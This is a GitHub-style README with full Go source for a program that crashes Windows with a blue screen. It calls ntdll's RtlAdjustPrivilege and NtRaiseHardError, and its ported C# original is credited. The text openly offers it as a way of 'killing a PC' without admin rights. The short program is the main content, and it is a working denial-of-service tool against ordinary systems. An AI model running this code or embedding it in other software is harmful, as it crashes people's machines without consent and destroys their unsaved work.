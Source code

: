 ## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' New-Technology API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privelege (level of importance) and invoking a system level hard-stop exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen. 

> (basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>

